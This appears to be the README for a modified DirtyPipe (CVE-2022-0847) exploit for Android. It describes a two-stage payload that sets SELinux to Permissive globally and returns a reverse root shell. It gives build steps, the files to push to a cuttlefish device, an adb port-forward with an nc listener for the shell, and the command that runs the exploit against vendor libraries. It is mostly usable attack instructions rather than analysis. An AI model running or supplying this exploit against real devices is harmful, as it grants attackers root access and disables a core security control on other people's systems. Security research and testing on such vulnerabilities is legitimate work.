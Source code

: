 # CVE-2022-0847 - DirtyPipe
This exploit works by modifying the DirtyPipe to craft a two stage payload that can set SELinux to Permissive and return a reverse root shell.
The original exploit from https://github.com/polygraphene/DirtyPipe-Android was modified to remove the magisk dependency altogether as well as set SELinux to Permissive globally.
Note: SELinux must be enforcing when the exploit is run or the loading of the module silently fails.

## Compile
`export ANDROID_NDK=<path/to/android/ndk>`
`export PATH=$PATH:$ANDROID_NDK/toolchains/llvm/prebuilt/linux-x86_64/bin`
`make`

Push the following files to the cuttlefish device:
dirtypipe-android
startup-root


## Trigger
On your host, run:
`bin/adb -s <device_number> reverse tcp:10847 tcp:10847`
`nc -lvnp 10847`

To run the exploit:
`/data/local/tmp/dirtypipe-android -f /vendor/lib/libstagefright_soft_mp3dec.so /product/lib/libgiftranscode.so`


